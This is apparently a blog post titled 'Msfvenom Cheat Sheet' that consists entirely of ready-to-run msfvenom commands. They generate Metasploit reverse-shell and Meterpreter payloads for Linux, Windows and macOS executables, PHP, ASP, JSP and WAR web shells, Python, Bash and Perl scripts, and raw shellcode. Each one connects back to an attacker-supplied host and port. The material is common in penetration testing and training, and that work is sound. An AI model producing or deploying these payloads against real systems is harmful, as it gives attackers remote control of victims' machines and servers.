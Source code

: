 ```yaml
---
title: Msfvenom Cheat Sheet
layout: post
categories: Security
tags: metasploit payloads
author: Aiden
---
```


* content
{:toc}

### Binaries

#### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f elf > shell.elf
```

#### Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f exe > shell.exe
```

#### MacOS
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f macho > shell.macho
```

### Web Payloads

#### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

#### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f asp > shell.asp
```

#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.jsp
```

#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f war > shell.war
```

### Scripting Payloads

#### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.py
```

#### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.sh
```

#### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.pl
```

### Shellcode

#### Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f <language>
```

#### Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f <language>
```

#### Mac Based Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -fn<language>
```